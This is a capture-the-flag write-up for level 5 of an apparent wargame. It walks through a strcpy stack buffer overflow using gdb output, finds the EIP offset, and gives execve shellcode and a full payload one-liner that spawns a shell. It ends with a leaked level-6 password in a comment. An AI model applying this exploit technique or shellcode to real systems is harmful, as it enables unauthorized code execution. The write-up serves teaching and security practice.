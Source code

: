 ## Level 5:

```c
1 #include <stdio.h>
2 #include <string.h>
3 
4 int main(int argc, char **argv) {
5 
6     char buf[128];
7 
8     if(argc < 2) return 1;
9 
10     strcpy(buf, argv[1]);
11 
12     printf("%s\n", buf);
13 
14     return 0;
15 }
```

With a buffer of set size and a strcpy this will be another overflow problem. 

With a little bit of testing we can see that we can overwrite **EIP**. What we would like to do is set it to point to our code. Firstly we need to create a shell code which we will insert into the buffer and set **EIP** to be the address of the first byte.

Also I set a break before the **strcpy** function to see the buffer before jump.

```console
(gdb) disass main
Dump of assembler code for function main:
   0x080483b4 <+0>:	push   %ebp
   0x080483b5 <+1>:	mov    %esp,%ebp
   0x080483b7 <+3>:	sub    $0xa8,%esp
   0x080483bd <+9>:	and    $0xfffffff0,%esp
   0x080483c0 <+12>:	mov    $0x0,%eax
   0x080483c5 <+17>:	sub    %eax,%esp
   0x080483c7 <+19>:	cmpl   $0x1,0x8(%ebp)
   0x080483cb <+23>:	jg     0x80483d9 <main+37>
   0x080483cd <+25>:	movl   $0x1,-0x8c(%ebp)
   0x080483d7 <+35>:	jmp    0x8048413 <main+95>
   0x080483d9 <+37>:	mov    0xc(%ebp),%eax
   0x080483dc <+40>:	add    $0x4,%eax
   0x080483df <+43>:	mov    (%eax),%eax
   0x080483e1 <+45>:	mov    %eax,0x4(%esp)
   0x080483e5 <+49>:	lea    -0x88(%ebp),%eax
   0x080483eb <+55>:	mov    %eax,(%esp)
   0x080483ee <+58>:	call   0x80482d4 <strcpy@plt>
   0x080483f3 <+63>:	lea    -0x88(%ebp),%eax
   0x080483f9 <+69>:	mov    %eax,0x4(%esp)
   0x080483fd <+73>:	movl   $0x8048524,(%esp)
   0x08048404 <+80>:	call   0x80482b4 <printf@plt>
   0x08048409 <+85>:	movl   $0x0,-0x8c(%ebp)
   0x08048413 <+95>:	mov    -0x8c(%ebp),%eax
   0x08048419 <+101>:	leave  
   0x0804841a <+102>:	ret    
End of assembler dump.
(gdb) b *0x080483ee
Breakpoint 1 at 0x80483ee
(gdb) x/4wx $ebp
0xbffffbc8:	0x00000000	0xb7e26286	0x00000002	0xbffffc64
(gdb) x/s *0xbffffc64
0xbffffd8d:	"/levels/level05"
(gdb) x/s *0xbffffc68
0xbffffd9d:	'A' <repeats 144 times>
(gdb) print/x 0xbffffd9d + 0x73
$1 = 0xbffffe10
```

We can see the pointer to the argv[1] is **0xbffffd9d**, now with a bit of trying it is easy to find that **EIP** is from 140-144 bytes from this poitner. 

```console
(gdb) r $(python -c 'print "A"*140+"BBBB"')
Starting program: /levels/level05 $(python -c 'print "A"*140+"BBBB"')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

So we need to generate the payload to be 144 bytes long, include the shell code and the last 4 bytes must point to the start of the shell code.

Example shell code:
```c
char *shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
		  "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";
```
Reference: http://shell-storm.org/shellcode/files/shellcode-827.html

This shell code is 23 bytes long so we need to point to 0xbffffe12 (0xbffffd9d + 0x75(117 (140-23)))

Further reading: [shell coding by Steve Hanna](https://www.vividmachines.com/shellcode/shellcode.html) goes into details of making shell codes rather then using tools such as metasploit to generate the payload.

After all this we can finally generate the final payload and execute it:

```console
level5@io:/levels$ ./level05 $(python -c 'print "A"*117+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80\x12\xfe\xff\xbf"')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA1�Ph//shh/bin��PS��
                               ���
sh-4.3$ 
```

<!-- Level 6 password ==> fQ8W8YlSBJBWKV2R -->